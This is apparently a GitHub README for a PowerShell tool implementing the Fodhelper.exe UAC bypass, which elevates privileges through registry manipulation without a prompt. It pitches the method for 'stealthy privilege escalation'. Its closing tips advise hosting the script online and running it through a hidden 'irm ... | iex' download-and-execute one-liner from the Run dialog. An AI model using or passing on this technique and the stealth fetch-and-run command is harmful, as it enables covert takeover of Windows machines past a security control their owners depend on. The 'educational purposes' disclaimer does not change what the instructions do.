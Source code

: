 # Fodhelper UAC Bypass Implementation

## Overview
This repository contains a PowerShell script that demonstrates a UAC (User Account Control) bypass using **Fodhelper.exe**, a trusted binary in Windows operating systems. By exploiting a feature of Fodhelper.exe, we can elevate privileges without triggering the typical UAC prompt, allowing for seamless execution of elevated commands.

### What is Fodhelper.exe?
**Fodhelper.exe** is a trusted system binary found in Windows operating systems. By default, this executable has administrative privileges and is considered a "trusted binary" in Windows. As a result, **Fodhelper.exe** can be leveraged to gain administrative rights without triggering the standard UAC prompt that usually appears when attempting to run applications as an administrator.

In simpler terms, when running an application that requires administrative privileges, Windows typically prompts the user to confirm the action (UAC prompt). However, **Fodhelper.exe** bypasses this step, allowing for elevated privileges without user intervention. This behavior is a Windows-specific feature that can be exploited through registry manipulation to stealthily execute commands with administrative rights.

### How Does it Work?
The process involves manipulating registry entries related to **Fodhelper.exe** to invoke the binary with elevated privileges. Once triggered, **Fodhelper.exe** will execute the designated commands, such as running PowerShell scripts, with administrator rights.

This technique allows for the execution of commands or scripts that would typically require UAC confirmation, bypassing the prompt altogether. It can be used for automation or stealthy privilege escalation purposes.

### Stripped-Down Script
This repository provides a **stripped-down version of the PowerShell script** that showcases the basic functionality of the Fodhelper UAC bypass technique. The script is simplified to demonstrate that the method works, and you can modify it as needed to suit your purposes. **Please note**: This tool is intended for educational purposes only and should be used responsibly.

### Legal Disclaimer
This script and method are shared for educational purposes only. Misuse of this information, including unauthorized access to systems or data, is illegal and unethical. Always obtain proper authorization before attempting to use this technique in any environment. The author of this repository assumes no responsibility for any consequences arising from the use of this tool.

---

## Usage

### Prerequisites
- A Windows operating system with UAC enabled (the method works by exploiting **Fodhelper.exe**'s behavior in these environments).
- PowerShell is required for executing the script.

### Running the Script
1. Download or clone the repository.
2. Open a PowerShell session with out administrative privileges.
3. Navigate to the directory where the script is located.
4. Execute the PowerShell script using the following command:
   ```powershell
   .\uacGit.ps1

### Tips:
1. Host your modified script online.
2. Utilize Run Dialague Box (Win + R) to execute powershell -C "irm 'LinkToThisScript' | iex" and the "-WindowStyle Hidden" flag for stealth


